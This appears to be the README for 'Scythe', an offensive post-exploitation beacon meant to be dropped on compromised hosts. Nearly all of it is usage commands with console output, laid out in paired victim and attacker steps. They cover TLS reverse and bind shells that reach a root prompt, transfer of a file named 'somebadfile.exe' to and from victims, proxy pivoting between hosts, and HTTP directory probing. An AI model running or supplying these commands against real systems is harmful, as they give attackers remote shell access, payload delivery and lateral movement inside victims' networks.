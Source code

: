 # Scythe
All in one beacon to drop on a compromised host


## Build

* Please look at github actions or just use the dockerfile to build for your platform.

## Netcat

Remember to use --proxy if you plan to pivot between hosts

### Reverse Shell

* Victim:

```
root@f44b79805a1e:~/cmd# ./ScytheLinux Netcat --address 172.17.0.2 --reverse --port 8000 --tls
2024/06/13 22:45:18 [*] Rev shell spawning, connecting to 172.17.0.2:8000
2024/06/13 22:45:18 Linux

```

* Attacker:

```
root@fcbc11f4beba:~/cmd# ./ScytheLinux Netcat --listen --port 8000 --tls 
2024/06/13 22:45:06 Listener opened on :8000
2024/06/13 22:45:09 Received connection from 172.17.0.3:57398!
whoami
root

```

### Bind Shell:

* Victim:

```
root@fcbc11f4beba:~/cmd# ./ScytheLinux Netcat --bind --port 8000 --tls
2024/06/13 22:45:57 [*] Binding shell spawning for remote code execution
2024/06/13 22:46:02 Received connection from 172.17.0.3:49050!

```

* Attacker:

```
root@f44b79805a1e:~/cmd# ./ScytheLinux Netcat --address 172.17.0.2 --caller --port 8000 --tls
2024/06/13 22:46:02 [*] Bind shell spawning, connecting to 172.17.0.2:8000
whoami
root

```

## File Transfer

### Download

* Victim

```
./Scythe.exe FileTransfer --download --filename somebadfile.exe --hostname 10.10.10.10 --port 8080 --tls
```

* Attacker

```
./Scythe FileTransfer --listen --port 8080 --tls
```


### Upload

* Attacker

```
./Scythe.exe FileTransfer --filename somebadfile.exe --port 8080 --send --tls
```

* Victim

```
./Scythe.exe FileTransfer --listen --filename somebadfile.exe --port 8080 --tls
```

## Proxy

* Proxy server

```
./Scythe Proxy --port 9050
```

* Victim Reverse Shell

```
./Scythe.exe Netcat --address 10.10.10.10 --reverse --port 8000 --proxy 172.17.0.2 --tls
```

* Attacker

```
./ScytheLinux Netcat --listen --port 8000 --tls
```

## HTTP

### HTTP Test Server

* Use this to test your HTTP requests.

```
virtualenv -p python3 ~/development/virtual_env/flask
source ~/development/virtual_env/flask/bin/activate
pip install flask
python3 -m http.server
```

* Use this command to test different requests
* Spin up a Listener and Proxy if you want to test those features

```
./Scythe Http --method GET --timeout 5s --url http://127.0.0.1:5000 --directories /index.js,/index.html,/first-dir/index.js,/first-dir/index.html,/command.js,/server.py,/first-dir/dir.js/server.py,/requirements.py
```
